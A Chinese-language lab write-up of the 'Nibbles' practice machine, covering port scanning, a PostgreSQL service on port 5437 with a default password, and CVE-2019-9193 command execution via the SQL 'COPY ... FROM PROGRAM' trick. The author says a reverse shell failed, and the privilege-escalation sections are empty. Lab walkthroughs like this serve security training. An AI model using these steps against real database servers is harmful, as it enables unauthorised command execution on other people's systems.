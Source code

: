 ```yaml
---
icon: check
description: Medium / Linux / PostgreSQL命令执行 / CVE-2019-9193
---
```


# ✔️ Nibbles

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA nibbles 192.168.215.47 --open
```

<figure><img src="../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

* 扫描的同时可尝试直接使用IP地址登录查看是否有Web页面，很幸运有，但是好像没有什么特别的信息。

<figure><img src="../.gitbook/assets/1 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/2 (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/3 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/6 (12).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch检查是否有隐藏文件/目录，没有：

```bash
dirsearch -u  http://192.168.218.47 -x 403,404,400
```

<figure><img src="../.gitbook/assets/4 (12).png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的扫描结果，发现21端口正运行着FTP服务，尝试匿名登录，失败：

```bash
ftp 192.168.215.47
```

<figure><img src="../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 在5437端口上正在运行的是PostgreSQL 11.3-11.9版本的服务，搜索公开已知的漏洞发现了一个远程命令执行的漏洞正好适用于当前版本：

<figure><img src="../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

* 下载下来查看脚本使用说明：

```bash
searchsploit -m 50847.py
python3 50847.py -h
```

<figure><img src="../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 脚本利用始终失败，但是该端口运行的postgresql服务有弱口令登录，用上述脚本中的默认凭证可以成功登录该服务：

<figure><img src="../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

```bash
psql -h 192.168.210.47 -p 5437 -U postgres
```

<figure><img src="../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 根据上述搜索出的利用脚本得知漏洞为CVE-2019-9193，搜索找到可手动利用的步骤：

<figure><img src="../.gitbook/assets/13 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 验证结果说明目标确实存在着命令执行漏洞：

```bash
\c postgres
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec; 
```

<figure><img src="../.gitbook/assets/16 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例尝试用手动利用和脚本利用均无法成功反弹shell，暂不清楚原因先搁置...
{% endhint %}

<figure><img src="../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

***

## 权限提升

### 本地信息收集

### 漏洞利用

### ROOT

{% hint style="info" %}


(本例机器中途重置过，IP地址有变，不影响漏洞利用及其实现结果)
{% endhint %}
